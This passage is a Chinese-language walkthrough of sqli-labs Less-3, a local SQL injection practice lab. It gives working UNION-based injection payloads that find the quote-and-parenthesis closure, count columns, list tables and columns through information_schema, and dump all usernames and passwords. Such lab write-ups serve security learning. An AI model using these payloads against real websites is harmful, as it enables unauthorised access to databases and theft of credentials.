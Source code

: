 ```php
?id=-1 union select 1,group_concat(username),group_concat(password) from users --+
```
**爆出所有的用户名和密码**
![Pasted image 20250313162629](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162629.png)
# Less-3
**验证注入点：单引号报错，两个单引号闭合利用闭合方式：`') <payload> --+`**
也是闭合符号不一样
1.进入第三题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为**id**
![Pasted image 20250313162714](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313162714.png)
2.构造`?id=1`,页面显示正常。
```php
http://localhost/sqli-labs/Less-3/?id=1
```
![[Pasted image 20250313163018.png]]
3.接下来加个单引号，显示语句出错，根据报错信息可以得知参数`id`的值被**单引号和括号**包裹
```
http://localhost/sqli-labs/Less-3/?id=1'
```
![Pasted image 20250313163104](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313163104.png)
4.构造`?id=1') order by 3 --+`通过order by子句来判断该数据表的字段数
```
http://localhost/sqli-labs/Less-3/?id=1') order by 3 --+
```
![[Pasted image 20250313163156.png]]
构造`?id=1') order by 4 --+`页面报错，由此可知该表**字段数为3**
![Pasted image 20250313163217](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313163217.png)
5.构造`?id=-1') union select 1,2,3 --+`判断出回显点为该**表的第二、三字段**
```php
http://localhost/sqli-labs/Less-3/?id=1') union select 1,2,3 --+
```
![[Pasted image 20250313163335.png]]
6.构造`?id=-1') union select 1,2,database() --+`知道了**数据库名为security**
```php
http://localhost/sqli-labs/Less-3/?id=-1') union select 1,2,database() --+
```
![Pasted image 20250313163513](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313163513.png)
7.构造
```php
http://localhost/sqli-labs/Less-3/?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
在数据库information_schema中的tables表里查询出security数据库的表有：**emails,referers,uagents,users**
![Pasted image 20250313163605](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313163605.png)
8.构造
```php
?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
在数据库information_schema中的columns里查找出**数据库security中的users表的全部字段**
![[Pasted image 20250313165309.png]]
9.构造
```php
?id=-1') union select 1,group_concat(username),group_concat(password) from users --+
```
**爆出所有的用户名和密码**
![Pasted image 20250313165344](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165344.png)